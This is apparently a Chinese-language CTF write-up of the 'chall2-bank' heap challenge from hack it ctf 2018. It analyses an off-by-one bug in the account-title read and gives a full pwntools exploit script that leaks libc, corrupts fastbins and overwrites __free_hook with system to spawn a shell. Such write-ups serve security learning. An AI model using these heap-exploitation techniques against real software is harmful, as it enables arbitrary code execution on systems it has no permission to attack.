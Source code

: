 ```yaml
---
title: chall2-bank
date: 2018-10-20 23:37:51
tags: pwn FengShui heap
layout: post
---
```

hack it ctf 2018
chall2-bank
<!--more-->
# start
前几天写的当时记得保存了....
然后今天重建博客的时候发现没了...

# Analysis
这几天看了hitcon的pwn题感觉菜单题还是挺友好的
程序主要是以下功能
```arm
Letter
1. Create an account
2. Edit the title
3. Edit your statement
4. Shut down your account
5. View your bank status
```
主要涉及到的结构体是:
```arm
00000000 act             struc ; (sizeof=0x28, mappedto_6)
00000000 check           dq ?
00000008 size            dq ?
00000010 statement       dq ?                    ; offset
00000018 title           db 16 dup(?)
00000028 act             ends
00000028
```

本题特色每次做完操作都会检查一遍malloc_hook 和 每个被记录的act的chec位
```arm
__int64 check()
{
  __int64 result; // rax
  signed int i; // [rsp+4h] [rbp-Ch]

  for ( i = 0; i <= 19; ++i )
  {
    if ( account[i] && *(_DWORD *)account[i]->check != 0x60C0C748 )
    {
      puts("LOL you are bankrupt");
      exit(0);
    }
  }
  result = *(_QWORD *)dlsym((void *)0xFFFFFFFFFFFFFFFFLL, "__malloc_hook");
  if ( result )
    exit(0);
  return result;
}
```
每次malloc的大小都是fastbin内

# 漏洞
漏洞点比较明显:
```arm
unsigned __int64 add()
{
  int size; // [rsp+0h] [rbp-20h]
  int i; // [rsp+4h] [rbp-1Ch]
  act *ptr; // [rsp+8h] [rbp-18h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 19 && account[i]; ++i )
    ;
  if ( i <= 19 )
  {
    ptr = (act *)malloc(0x28uLL);
    ptr->check = (__int64)&magic;
    LODWORD(ptr->size) = 16;
    printf("Enter title of bank account: ");
    read(0, ptr->title, 0x11uLL);               // offbyone
    printf("Enter size of your bank statement: ", ptr->title);
    fflush(stdout);
    scanf("%d\n", &size);
    fflush(stdout);
    if ( size + 8 > 0x70 )
    {
      puts("Only fast allowed");
      exit(0);
    }
    if ( size <= 0 )
      exit(0);
    ptr->statement = (char *)malloc(size + 8);
    fgets(ptr->statement, size, stdin);
    account[i] = ptr;
    printf("Account has been created at index %d\n", (unsigned int)i);
  }
  else
  {
    puts("No space left");
  }
  return __readfsqword(0x28u) ^ v4;
}
```
在读入title的时候offbyone

# 思路
* offbyone 盖掉size free进入unsorted bin
* malloc调整堆块leak出heap和libc（虽然heap没啥用...）
* 因为mallochoook没得用又是full relro 所以只能找其他hook
    * free_hook 首选...
    * 首先做fastbin atk 改写掉topchunk指针到freehook前
    * 但是free_hook前没啥可以作为size位的数据所以要自己构造 用unsorted bin atk
    * 然后做一个fastbinatk 之前要在fast bins 中留下size位
* 改写free hook->system free("/bin/sh")

# 风水(坑点)
* 前方留下一堆和act size一样的chunk 到后面0x30不够用了就free一些优化结构
* 做完泄露之后别急着继续，先去调整一下heap 
* 泄漏完之后不要把unsorted bin 放进 smallbin 否则你会后悔的
* 在fastbin留下做fastbinatk的size1位
* 先想好再构造否则改死你

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("bank status\n",str(c))
def add(title,size,state="A"):
	cmd(1)
	p.sendafter("Enter title of bank account: ",title)
	p.sendlineafter("Enter size of your bank statement: ",str(size-8))
	p.sendline(state)
def free(idx):
	cmd(4)
	p.sendlineafter("Enter index of bank account: ",str(idx))
def show(idx):
	cmd(5)
	p.sendlineafter("Enter index of bank account: ",str(idx))#
#context.log_level='debug'
p=process("./chall2-bank")
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
add("A"*11,0x28)
free(0)
add("A"*11,0x38)#0
add("A"*0x10+'\xd1',0x28)#1
add("A",0x28)#2
add("A",0x28)#3
free(0)
add("A",0x70)#0
fake=0x00007f7a1d095000
#leak
show(2)
p.readuntil("Title: ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7bcdb78-fake)
p.readuntil("Statement: ")
heap=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x555555757130-0x555555757000)
log.warning(hex(base))

libc.address=base

#fix
free(3)
add("A",0x48)#3
#fixover
#leakover
add("B"*11,0x28)#4
free(4)
add("B"*11,0x38)#4


##5
cmd(1)
p.sendafter("Enter title of bank account: ","B"*0x10+'\xf1')
p.sendlineafter("Enter size of your bank statement: ",str(0x48-8))
p.send("\x00"*0x38+'\x41\x00\x00\x00\x00\x00\x00\x0a')
##5

free(1)
add("A",0x70,p64(0)*3+p64(0x21)*9)#1
add("B",0x70)#6
add("C",0x28)#7

free(5)
free(4)
free(1)
free(7)

add("A",0x58,p64(0)*7+p64(0x51)+p64(0x7ffff7bcdb50-fake+base))#1
add("A",0x58,p64(0)*3+p64(0x41)+p64(0)+p64(0x81)+p64(0x51))#4

add("A",0x70,p64(0)*3+p64(0x21)+p64(0)+p64(0x31)+p64(0)+p64(0x7ffff7bcf7a0-fake+base-0x10)+p64(0x00000000000020)+p64(0x20)*3)#5
add("A",0x48)#7

add("CCTV",0x28)#8

free(8)

add("A",0x48,p64(0)*3+p64(0x7ffff7bcf7a0-8-fake+base)+p64(0)+p64(0x7ffff7bcdb78-fake+base)+p64(0x7ffff7bcdb78-fake+base))#8

add("A",0x18,p64(0x7ffff784e390-fake+base))

add("A",0x18,"/bin/sh")#10

free(10)
p.interactive("neir>")



```
